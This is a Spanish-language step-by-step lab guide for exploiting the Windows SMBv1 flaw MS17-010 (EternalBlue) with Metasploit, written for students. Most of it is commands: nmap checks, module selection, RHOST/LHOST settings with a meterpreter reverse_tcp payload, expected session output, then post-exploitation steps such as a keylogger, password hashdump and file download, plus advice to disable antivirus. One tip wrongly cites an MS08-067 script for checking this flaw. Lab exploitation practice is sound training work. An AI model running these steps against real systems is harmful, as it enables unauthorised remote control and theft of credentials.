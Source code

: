 # 🛡️ **Guía para Explotar MS17-010 con Metasploit**
_______________________________________
## ⚠️ Aviso Legal / Disclaimer
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
_______________________________________
Esta guía explica paso a paso cómo explotar la vulnerabilidad MS17-010 (EternalBlue) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
_______________________________________

# 🛡️ **¿Qué es MS17-010 (EternalBlue)?**

- Vulnerabilidad crítica en el protocolo SMBv1 de Windows.
-	Permite ejecución remota de código sin autenticación.
-	Afecta Windows XP, 7, 8, Server 2003, 2008, 2012 (si no está parchado).
-	Fue utilizada por el ransomware WannaCry y NotPetya.
_______________________________________
## 🧰 Requisitos del entorno de pruebas
-	💻 Kali Linux (máquina atacante). https://www.kali.org/get-kali/#kali-platforms
-	🧱  [Máquina vulnerable: Windows 7 SP1 o Windows Server 2008 sin el parche MS17-010.](https://drive.google.com/file/d/11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_/view)
-	🌐 Ambas máquinas deben estar en la misma red local o virtual interna.
________________________________________
## 🧪 Paso a paso para explotar MS17-010 con Metasploit
________________________________________
**🔹 1. Verifica conectividad y vulnerabilidad**
Desde Kali:
<pre> ping [IP_de_la_víctima] </pre>
Opcional (para verificar si es vulnerable):
<pre> nmap -p 445 --script smb-vuln-ms17-010 [IP_víctima] </pre>
Si dice VULNERABLE, puedes continuar.
________________________________________
**🔹 2. Iniciar Metasploit**
<pre> msfconsole </pre>

**🔹 3. Buscar el exploit**
<pre>search eternalblue</pre>
Deberías ver:
<pre> exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 4. Seleccionar el exploit**
<pre> use exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 5. Ver las opciones requeridas**
<pre> show options </pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar los parámetros**
 ```bash
set RHOST [IP_de_la_víctima]
set LHOST [IP_de_Kali]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
 ```
También puedes usar  ```bash windows/meterpreter/reverse_tcp  ``` si la víctima es de 32 bits.
________________________________________
**🔹 7. Verificar configuración**
<pre> show options </pre>
________________________________________
**🔹 8. Ejecutar el exploit**
<pre> exploit </pre>
________________________________________
## ✅ **Resultado esperado**
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage ...
[*] Meterpreter session 1 opened
```
¡Ahora tienes acceso remoto a la máquina!
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
**Comandos útiles:**
- **sysinfo:**	Información del sistema
- **getuid:**	Usuario actual
- **shell:**	Abre CMD de la víctima
- **screenshot:**	Captura pantalla
- **download archivo:**	Descargar archivos
- **keyscan_start:**	Inicia keylogger
- **hashdump:**	Extraer hashes de contraseñas
________________________________________
## 🔒 Precauciones
-	No usar este exploit en redes reales o con máquinas no autorizadas.
-	EternalBlue afecta SMBv1, un protocolo antiguo y obsoleto.
________________________________________
## ❌ **Consejos adicionales**

- Para verificar si el Windows 7 es vulnerable: ```bash nmap -p 445 --script smb-vuln-ms08-067 [IP_víctima] ```
- Si el Exploit dice "No session created"	Verifica que la víctima sea vulnerable (sin parche KB4012212 o similar)
- LHOST mal configurado	Usa la IP correcta de tu Kali, no 127.0.0.1 ni una IP de otra red
- Antivirus bloquea el payload	Desactívalo (solo en laboratorio)
- Máquina víctima no usa SMBv1	Actívalo o usa una VM XP/7 sin actualizar
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS17-010](https://www.exploit-db.com/exploits/42315)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/)
-	[Hack The Box](https://www.hackthebox.com/machines/blue)
- [TryHackMe](https://tryhackme.com/room/blue)
